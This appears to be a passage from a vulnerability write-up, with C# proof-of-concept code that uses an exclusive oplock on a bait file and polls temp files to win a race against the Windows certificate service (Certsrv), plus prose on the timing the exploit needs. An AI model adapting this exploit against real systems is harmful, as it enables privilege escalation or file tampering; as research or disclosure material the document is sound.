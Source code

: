 ```c#
            NtFile ntFile = NtFile.Open(@"\??\C:\Workspace\Bait\target.txt", null, FileAccessRights.ReadAttributes, FileShareMode.All, FileOpenOptions.None);
            while (true)
            {
                var OpLockTask = ntFile.OplockExclusiveAsync();
                Console.WriteLine("[*] OpLock set on file");
                var hFind = FindFirstFile(@"C:\Workspace\Bait\pre*.tmp", out findFileData);
                if (hFind != INVALID_HANDLE_VALUE)
                {
                    var hFind2 = FindFirstFile(@"C:\Workspace\Bait\pre*.tmp", out findFileData2);
                    if (hFind2 != INVALID_HANDLE_VALUE)
                    {
                        if (findFileData.cFileName == findFileData2.cFileName)
                        {
                            Console.WriteLine(findFileData.cFileName);
                            Console.WriteLine("Please press Enter to release...");
                            Console.ReadLine();
                            return;
                        }
                    }
                }
                Console.WriteLine("[*] Releasing OpLock.");
                ntFile.AcknowledgeOplock(OplockAcknowledgeLevel.No2);
            }
        }

        [DllImport("KERNELBASE.DLL", CharSet = CharSet.Unicode, SetLastError = true)]
        internal static extern IntPtr FindFirstFile(string lpFileName, out WIN32_FIND_DATA lpFindFileData);

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Unicode)]
        internal struct WIN32_FIND_DATA
        {
            public uint dwFileAttributes;
            public FILETIME ftCreationTime;
            public FILETIME ftLastAccessTime;
            public FILETIME ftLastWriteTime;
            public uint nFileSizeHigh;
            public uint nFileSizeLow;
            public uint dwReserved0;
            public uint dwReserved1;
            [MarshalAs(UnmanagedType.ByValTStr, SizeConst = 260)]
            public string cFileName;
            [MarshalAs(UnmanagedType.ByValTStr, SizeConst = 14)]
            public string cAlternateFileName;
        }
    }
}
```

Absolutely, it's essential to stress that we must release the OpLock after Certsrv's initial access to the old 'target.txt,' and re-establish the OpLock on the old 'target.txt' before the first execution of SetRenameInformationFile manipulation on it. This sequence is imperative to meet the requirements for vulnerability exploitation.
